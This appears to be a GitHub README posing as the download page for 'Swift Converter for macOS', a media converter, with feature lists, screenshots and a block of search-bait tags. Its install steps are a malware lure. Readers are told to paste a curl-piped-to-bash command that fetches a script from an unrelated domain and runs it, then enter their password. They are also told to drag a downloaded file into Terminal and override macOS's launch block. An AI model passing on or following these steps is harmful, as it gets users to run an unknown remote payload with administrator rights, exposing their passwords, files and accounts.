 <p align="center">
  <img src="https://i.ibb.co/93mfMLTG/1632608207-swiftconverter-icon.png" width="250" alt="Swift Converter macOS Banner" />
</p>

<h1 align="center">Swift Converter for macOS</h1>

<p align="center">
  🎥 Convert videos, audio, and images with ease. Drag, drop, convert — lightning-fast with full format support.  
  <br><br>
  ✅ Native Apple Silicon Optimized  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/249" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SWIFT%20CONVERTER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Swift Converter for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/W4MmhLMP/1632608486-1-min.jpg" alt="Swift Converter Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Swift Converter for macOS?

**Swift Converter** is a fast, universal media converter for macOS. It transforms videos, audio files, and images into almost any format with drag-and-drop simplicity. Whether you're compressing a movie, converting a song, or resizing a batch of images, Swift Converter gets the job done — quickly and without fuss.

The app supports all major formats including MP4, MOV, MKV, MP3, WAV, FLAC, JPG, PNG, HEIC, and more — and it’s fully optimized for Apple Silicon chips.

---

## ✅ Why Choose Swift Converter?

- 🎞️ **Convert Video to MP4, MOV, MKV & More**  
- 🎵 **Audio Format Support: MP3, WAV, FLAC, AAC**  
- 🖼️ **Image Conversion: JPG, PNG, HEIC, TIFF**  
- ⚡ **Drag-and-Drop Interface with Batch Mode**  
- 🧠 **Presets for iPhone, iPad, Mac, Web Use**  
- 🍎 **Apple Silicon (M1/M2/M3) Native Support**  
- 🚀 **Lightweight, Fast, and Offline Capable**  
- 📁 **Keeps Original Quality or Allows Compression**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/67vjNZyg/1632608487-2-min.jpg" alt="Batch Conversion Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/jPpmhcNB/1632608487-3-min.jpg" alt="Video to MP4 Export Panel" />
</p>

---

## 🚀 Key Features

- All-in-one media format converter  
- One-click batch processing  
- Optimized for macOS performance  
- Supports high-quality video compression  
- Convert for mobile, desktop, or streaming  
- Lossless audio conversion options  
- Resize and convert image files  
- Offline, secure, and no telemetry

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Swift Converter manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/MediaConverter-Video+Audio+Image-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Swift Converter – Convert Anything, Swiftly

Thanks for using **Swift Converter for macOS**.  
Fast. Simple. Reliable format conversion.

---

## 🧭 Usage Context

Swift Converter runs 100% offline and processes files locally.  
Great for professionals working with media, content creators, and users needing cross-format compatibility.  
No login. No sync. Just conversion.

---

## 🔍 Tags

```text
swift converter mac download, convert video to mp4 mov mkv mac, audio file converter for mac m1 m2, batch convert images png heic jpg macos, media conversion utility apple silicon, swift converter full version macbook sonoma, export video presets iphone ipad mac, lossless audio format conversion mac, drag drop file converter tool for mac, mkv to mp4 convert mac fast, convert flac wav aac audio on mac, image resize and format swap mac app, swift video converter ventura compatible, media tool for mac high quality export, convert anything mac offline utility
